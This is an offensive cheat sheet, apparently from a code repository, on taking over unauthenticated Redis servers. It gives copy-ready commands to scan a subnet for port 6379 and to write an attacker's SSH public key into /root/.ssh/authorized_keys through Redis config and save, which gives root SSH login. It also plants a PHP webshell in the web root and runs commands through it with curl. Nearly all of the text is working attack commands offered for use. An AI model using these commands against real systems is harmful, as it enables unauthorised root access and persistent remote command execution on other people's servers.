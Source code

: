 # Redis Exploitation - 2 Minute Root

## Detection
```bash
# Find Redis servers
nmap -p6379 --open 10.10.10.0/24

# Test authentication
redis-cli -h TARGET ping
# PONG = no authentication required!
```

## SSH Key Injection (Instant Root)

```bash
# 1. Generate SSH key pair
ssh-keygen -t rsa -f redis_key -N ""
(echo -e "\n\n"; cat redis_key.pub; echo -e "\n\n") > key.txt

# 2. Inject key via Redis
redis-cli -h TARGET flushall
cat key.txt | redis-cli -h TARGET -x set crackit
redis-cli -h TARGET config set dir /root/.ssh
redis-cli -h TARGET config set dbfilename "authorized_keys"
redis-cli -h TARGET save

# 3. SSH as root
ssh -i redis_key root@TARGET
```

## Webshell Upload (Alternative)

```bash
# If Redis can write to web root
redis-cli -h TARGET config set dir /var/www/html
redis-cli -h TARGET config set dbfilename shell.php
redis-cli -h TARGET set shell "<?php system(\$_GET['cmd']); ?>"
redis-cli -h TARGET save

# Access shell
curl http://TARGET/shell.php?cmd=id
```
